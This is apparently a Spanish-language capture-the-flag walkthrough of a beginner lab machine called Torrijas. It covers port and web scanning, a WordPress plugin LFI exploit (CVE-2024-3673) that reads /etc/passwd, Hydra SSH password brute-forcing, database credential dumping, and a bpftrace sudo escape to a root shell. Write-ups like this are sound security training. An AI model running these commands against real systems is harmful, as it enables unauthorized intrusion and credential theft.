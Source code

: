 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Torrijas

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.66
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.66 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH y** el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,3306 -v 192.168.1.66
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154105.png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 154309.png" alt=""><figcaption></figcaption></figure>

Ponemos el dominio **torrija.thl** en `/etc/hosts`. Tras esto realizamos un escaneo de directorios.

```
gobuster dir -u http://192.168.1.66 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt,php
```

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 155904.png" alt=""><figcaption></figcaption></figure>

Nos llama la atención que hay un **wordpress** por lo que indagamos más en ese directorio.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 160040.png" alt=""><figcaption></figcaption></figure>

Enumeramos los usuarios y los plugins con **WPScan**.

```
wpscan --url http://192.168.1.66/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (1266).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Encontramos un usuario pero al realizar fuerza bruta no encuentra la contraseña. Entonces realizo un enumeración de plugins de manera agresiva.

```bash
wpscan --url http://192.168.1.66/wordpress --enumerate ap --force --plugins-detection mixed
```

<figure><img src="../../.gitbook/assets/image (1267).png" alt=""><figcaption></figcaption></figure>

Buscando los dos por Internet nos llama la atención el segundo ya que se puede realizar un **LFI**.

{% embed url="https://notcve.org/view.php?id=CVE-2024-3673" %}

{% @github-files/github-code-block url="https://github.com/Nxploited/CVE-2024-3673" %}

```
python3 CVE-2024-3673.py --url http://192.168.1.66/wordpress --file ../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (1268).png" alt=""><figcaption></figcaption></figure>

Encontramos dos usuarios llamados **Primo** y **Premo** pero solo encontramos a través de fuerza bruta la contraseña de **Premo**.

```
hydra -l premo -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.66 -t 64
```

<figure><img src="../../.gitbook/assets/image (1269).png" alt=""><figcaption></figcaption></figure>

Nos conectamos con esas credenciales a través de SSH.

```bash
ssh premo@192.168.1.66
```

<figure><img src="../../.gitbook/assets/image (1270).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

En este caso, al estar trabajando con una instalación de **WordPress** y con el puerto **3306** (MySQL) expuesto, el siguiente paso será intentar obtener las credenciales de la base de datos. Un archivo crucial en WordPress que suele contener esta información es el `wp-config.php`.

<figure><img src="../../.gitbook/assets/image (1271).png" alt=""><figcaption></figcaption></figure>

Nos conectamos a la base de datos.

```
mysql -u admin -p
```

<figure><img src="../../.gitbook/assets/image (1272).png" alt=""><figcaption></figcaption></figure>

Indagamos que tenemos en la base de datos.

```
show databases;
use wordpress;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (1273).png" alt=""><figcaption></figcaption></figure>

Al ser la contraseña hasheada no nos sirve ya que estamos dentro pero probamos si podemos entrar en la base de datos de **root**.

```
mysql -u admin -p
show databases;
use Torrijas;
show tables;
select * from primo;
```

<figure><img src="../../.gitbook/assets/image (1274).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales.

<figure><img src="../../.gitbook/assets/image (1275).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/bpftrace/" %}

```
sudo bpftrace -c /bin/sh -e 'END {exit()}'
```

<figure><img src="../../.gitbook/assets/image (1276).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
